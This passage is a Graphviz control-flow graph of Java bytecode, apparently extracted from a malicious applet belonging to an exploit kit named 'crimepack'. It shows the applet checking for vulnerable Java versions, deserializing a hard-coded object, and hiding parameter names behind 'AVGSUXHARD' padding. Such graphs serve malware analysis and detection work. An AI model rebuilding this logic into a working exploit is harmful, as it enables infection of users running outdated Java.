    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_14\""
    "load.r r65"->"push \"1.5.0_14\"";
    "push \"1.5.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_15\""
    "load.r r65"->"push \"1.5.0_15\"";
    "push \"1.5.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.5.0_16\""
    "load.r r65"->"push \"1.5.0_16\"";
    "push \"1.5.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.6.0_01\""
    "load.r r65"->"push \"1.6.0_01\"";
    "push \"1.6.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.6.0_02\""
    "load.r r65"->"push \"1.6.0_02\"";
    "push \"1.6.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.6.0_03\""
    "load.r r65"->"push \"1.6.0_03\"";
    "push \"1.6.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.6.0_04\""
    "load.r r65"->"push \"1.6.0_04\"";
    "push \"1.6.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.6.0_05\""
    "load.r r65"->"push \"1.6.0_05\"";
    "push \"1.6.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.6.0_06\""
    "load.r r65"->"push \"1.6.0_06\"";
    "push \"1.6.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.6.0_07\""
    "load.r r65"->"push \"1.6.0_07\"";
    "push \"1.6.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r65";
    "push \"1.6.0_10\""
    "load.r r65"->"push \"1.6.0_10\"";
    "push \"1.6.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i return"
    "push -1"->"ifcmpeq.i return";
    "new java.io.ObjectInputStream"
    "ifcmpeq.i return"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "staticget <KAK.NED.sexxxy: java.lang.String serializedObject>"
    "dup1.r"->"staticget <KAK.NED.sexxxy: java.lang.String serializedObject>";
    "staticinvoke <KAK.NED.crime4u: byte[] StringToBytes(java.lang.String)>"
    "staticget <KAK.NED.sexxxy: java.lang.String serializedObject>"->"staticinvoke <KAK.NED.crime4u: byte[] StringToBytes(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <KAK.NED.crime4u: byte[] StringToBytes(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "ifnull return"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"ifnull return";
    "staticget <KAK.NED.NOD32: KAK.NED.NOD32 instance>"
    "ifnull return"->"staticget <KAK.NED.NOD32: KAK.NED.NOD32 instance>";
    "staticget <KAK.NED.NOD32: KAK.NED.NOD32 instance>"->"ifnull return";
    "ifnull return"->"load.r r0";
    "push \"AVGSUXHARDcAVGSUXHARDrAVGSUXHARDiAVGSUXHARDmAVGSUXHARDeAVGSUXHARDpAVGSUXHARDaAVGSUXHARDcAVGSUXHARDkAVGSUXHARD\""
    "load.r r0"->"push \"AVGSUXHARDcAVGSUXHARDrAVGSUXHARDiAVGSUXHARDmAVGSUXHARDeAVGSUXHARDpAVGSUXHARDaAVGSUXHARDcAVGSUXHARDkAVGSUXHARD\"";
    "push \"AVGSUXHARDcAVGSUXHARDrAVGSUXHARDiAVGSUXHARDmAVGSUXHARDeAVGSUXHARDpAVGSUXHARDaAVGSUXHARDcAVGSUXHARDkAVGSUXHARD\""->"push \"AVGSUXHARD\"";
    "push \"AVGSUXHARD\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <KAK.NED.sexxxy: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <KAK.NED.sexxxy: java.lang.String getParameter(java.lang.String)>"->"store.r r65";
    "store.r r65"->"load.r r0";
    "push \"AVGSUXHARDcAVGSUXHARDoAVGSUXHARDuAVGSUXHARDnAVGSUXHARDtAVGSUXHARD\""
    "load.r r0"->"push \"AVGSUXHARDcAVGSUXHARDoAVGSUXHARDuAVGSUXHARDnAVGSUXHARDtAVGSUXHARD\"";
    "push \"AVGSUXHARDcAVGSUXHARDoAVGSUXHARDuAVGSUXHARDnAVGSUXHARDtAVGSUXHARD\""->"push \"AVGSUXHARD\"";
    "push \"AVGSUXHARD\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <KAK.NED.sexxxy: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <KAK.NED.sexxxy: java.lang.String getParameter(java.lang.String)>"->"store.r r0";
    "store.r r0"->"load.r r65";
    "ifnonnull staticget <KAK.NED.NOD32: KAK.NED.NOD32 instance>"
    "load.r r65"->"ifnonnull staticget <KAK.NED.NOD32: KAK.NED.NOD32 instance>";
    "ifnonnull staticget <KAK.NED.NOD32: KAK.NED.NOD32 instance>"->"push \"\"";
    "push \"\""->"store.r r65";
    "store.r r65"->"staticget <KAK.NED.NOD32: KAK.NED.NOD32 instance>";
    "staticget <KAK.NED.NOD32: KAK.NED.NOD32 instance>"->"load.r r65";
    "load.r r65"->"load.r r0";
    "virtualinvoke <KAK.NED.NOD32: void YESFAIL(java.lang.String,java.lang.String)>"
    "load.r r0"->"virtualinvoke <KAK.NED.NOD32: void YESFAIL(java.lang.String,java.lang.String)>";
    "virtualinvoke <KAK.NED.NOD32: void YESFAIL(java.lang.String,java.lang.String)>"->"goto return";
    "virtualinvoke <KAK.NED.NOD32: void YESFAIL(java.lang.String,java.lang.String)>"->"store.r r0";
}
